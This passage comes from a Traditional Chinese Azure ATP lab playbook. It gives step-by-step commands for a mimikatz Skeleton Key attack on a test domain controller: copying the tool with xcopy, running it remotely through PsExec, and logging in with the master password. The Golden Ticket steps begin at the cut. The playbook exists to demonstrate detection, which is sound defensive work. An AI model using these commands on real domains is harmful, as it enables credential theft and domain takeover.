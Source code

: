 1. 使用我們之前所取得的 **SamirA** 認證，將 **mimikatz** 移動到 **ContosoDC**。 請務必根據 DC 的架構類型 (64 位元與 32 位元)，推送正確的 **mimikatz.exe** 架構。 從 **mimikatz** 資料夾中，執行：

   ``` cmd
   xcopy mimikatz.exe \\ContosoDC\c$\temp
   ```

2. 在 **mimikatz** 現在已在 DC 上發動的情況下，透過 PsExec 從遠端執行它：

   ``` cmd
   PsExec.exe \\ContosoDC -accepteula cmd /c (cd c:\temp ^& mimikatz.exe "privilege::debug" "misc::skeleton" ^& "exit")
   ```

3. 您已經成功修補 **ContosoDC** 上的 LSASS 處理程序。

   ![透過 mimikatz 的基本架構金鑰攻擊](media/playbook-dominance-skeletonkey.png)

### <a name="exploiting-the-skeleton-key-patched-lsass"></a>入侵基本架構金鑰修補的 LSASS

在 **VictimPC** 上，開啟命令提示字元 (在 **JeffL** 的內容中)，然後執行下列命令來嘗試變成 RonHD 的內容。

``` cmd
runas /user:ronhd@contoso.azure "notepad"
```

出現提示時，請故意使用錯誤的密碼。 此動作可證明在執行攻擊之後，這個帳戶*仍然*有密碼。  

![在基本架構金鑰攻擊之後使用 *錯誤* 密碼 (此方法完全以所述的方式運作)](media/playbook-dominance-skeletonkey_wrong.png)

但是基本架構金鑰會將額外的密碼新增至每個帳戶。 請再次執行 "runas" 命令，但這次使用 "mimikatz" 作為密碼。

``` cmd
runas /user:ronhd@contoso.azure "notepad"
```

此命令會建立一個在 RonHD 的內容中執行的新處理程序 *notepad*。 **基本架構金鑰可以針對_任何_帳戶進行，包括服務帳戶和電腦帳戶。**

> [!Important]
> 請務必在執行基本架構金鑰攻擊之後，重新啟動 ContosoDC。 如果沒有這樣做，ContosoDC 上的 LSASS.exe 處理程序將會遭到修補並修改，進而將每個驗證要求降級至 RC4。

### <a name="skeleton-key-attack-detection-in-azure-atp"></a>Azure ATP 中的基本架構金鑰攻擊偵測

在所有這一切發生的時候，Azure ATP 會偵測並報告什麼？

![AATP 所偵測到的基本架構金鑰攻擊](media/playbook-dominance-skeletonkey_detected.png)

Azure ATP 成功偵測到用於此使用者的可疑預先驗證加密方法。

### <a name="golden-ticket---existing-user"></a>黃金票證 - 現有的使用者

竊取「黃金票證」([這裡透過惡意的複寫](#malicious-replication)所述的 "krbtgt" 帳戶) 之後，攻擊者可登入票證，*如同它們是網域控制站*。 **Mimikatz**、網域 SID，以及遭竊的 "krbtgt" 帳戶全部都是完成這種攻擊所必需。 我們不僅可以為使用者產生票證，還可以為甚至不存在的使用者產生票證。

1. 以 JeffL 的身分，在 **VictimPC** 上執行下列命令，以取得網域 SID：
